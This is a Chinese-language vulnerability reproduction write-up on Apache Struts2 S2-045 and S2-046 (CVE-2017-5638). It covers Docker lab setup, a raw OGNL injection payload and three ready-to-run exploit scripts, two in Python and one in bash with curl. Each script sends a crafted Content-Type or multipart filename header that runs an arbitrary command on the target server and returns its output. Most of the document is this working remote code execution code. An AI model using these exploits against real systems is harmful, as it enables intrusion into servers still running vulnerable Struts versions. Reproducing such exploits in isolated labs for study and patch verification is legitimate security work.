




<h3 style="color: red"> 漏洞信息</h3>

> S2-045的CVE编号都为`CVE-2017-5638`,S2-045是`Content-Type`值,S2-046是`Content-Length`,同一个问题不同攻击向量.

- [S2-045 公告](https://cwiki.apache.org/confluence/display/WW/S2-045)
- [S2-046 公告](https://cwiki.apache.org/confluence/display/WW/S2-046)
- CVE编号: CVE-2017-5638
- 影响范围: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10
-攻击方法
	- `S2-045`: 攻击者可在上传文件时通过修改`HTTP`请求头中的`Content-Type`值来触发该漏洞,进而执行系统命令
	- `S2-046`: 攻击者使用基于`Jakarta`插件上传文件时,通过修改`Content-Length`头的值,并且在`Content-Disposition`值中添加恶意代码,导致远程代码执行

<hr>

<h2 style="color: red;">S2-045漏洞复现:</h2>

#### 快速S2-045搭建漏洞环境
```bash
docker pull medicean/vulapps:s_struts2_s2-045

docker run -d -p 2045:8080 medicean/vulapps:s_struts2_s2-045

137b7002b07d83b14b736c33634aab7784e6563adeb4d64560897ed9e98f14ba

url: http://192.168.48.145:2045/
```
#### POC
```
%{(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
```



#### Exploit

[Apache Struts 2.3.5 < 2.3.31 / 2.5 < 2.5.10 - Remote Code Execution ----Exploit-db](https://www.exploit-db.com/exploits/41570/)

```python 
#!/usr/bin/python
# -*- coding: utf-8 -*-
 
import urllib2
import httplib
 
 
def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"
 
    try:
        headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
        request = urllib2.Request(url, headers=headers)
        page = urllib2.urlopen(request).read()
    except httplib.IncompleteRead, e:
        page = e.partial
 
    print(page)
    return page
 
 
if __name__ == '__main__':
    import sys
    if len(sys.argv) != 3:
        print("[*] struts2_S2-045.py <url> <cmd>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print("[*] cmd: %s\n" % cmd)
        exploit(url, cmd)

```


<hr>

<h2 style="color: red;"> S2-046漏洞复现:</h2>

#### 快速S2-046搭建漏洞环境
```bash
docker pull medicean/vulapps:s_struts2_s2-046
docker run -d -p 2046:8080 medicean/vulapps:s_struts2_s2-046

ffa071a9c68643f81f2491940ad068f3b4dac06688be8f581b809241c47ebe04

url: http://192.168.48.145:2046/doUpload.action
```

#### Exploit
```bash

root@huang:~# cat struct2046.sh 
#!/bin/bash
 
url=$1
cmd=$2
shift
shift
 
boundary="---------------------------735323031399963166993862150"
content_type="multipart/form-data; boundary=$boundary"
payload=$(echo "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='"$cmd"').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}")
 
printf -- "--$boundary\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"%s\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--$boundary--\r\n\r\n" "$payload" | curl "$url" -H "Content-Type: $content_type" -H "Expect: " -H "Connection: close" --data-binary @- $@

``` 


使用Python改写exp:
```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

import urllib2
import httplib


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
    payload += "(#ros.flush())}"

    try:
        boundary = "---------------------------735323031399963166993862150"
        headers = {'Content-Type': 'multipart/form-data; boundary=' + boundary + ''}
        data = "--" + boundary + "\r\nContent-Disposition: form-data; name=\"foo\"; filename=\"" + payload + "\0b\"\r\nContent-Type: text/plain\r\n\r\nx\r\n--" + boundary + "--"
        request = urllib2.Request(url, headers=headers, data=data)
        page = urllib2.urlopen(request).read()
    except httplib.IncompleteRead, e:
        page = e.partial

    print(page)
    return page

if __name__ == '__main__':
    import sys
    if len(sys.argv) != 3:
        print("[*] struts2_S2-046.py <url> <cmd>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-046')
        url = sys.argv[1]
        cmd = sys.argv[2]
        print("[*] cmd: %s\n" % cmd)
        exploit(url, cmd)
```


<b style="color: red">Notes</b>:

使用更方便的`requests`库代替`urllib2` 接收和发送二进制数据会报`requests.exceptions.ChunkedEncodingError`错误,有时间可以参考 [python requests接收chunked编码问题](http://blog.csdn.net/wangzuxi/article/details/40377467) 以及 [Source code for requests.exceptions](http://docs.python-requests.org/en/master/_modules/requests/exceptions/) 看看能否可以解决

相关链接:

- [S2-045 漏洞分析 ---- seebug_paper](https://paper.seebug.org/247/)
- [Struts 2远程命令执行漏洞S2-046 ---- mottoin](http://www.mottoin.com/98591.html)
- [【重大漏洞预警】Struts 2 远程代码执行漏洞(s2-045\s2-046) (含](http://bobao.360.cn/learning/detail/3571.html)
- [S2-046漏洞调试及初步分析 ---- 阿里先知社区](https://xianzhi.aliyun.com/forum/topic/221/)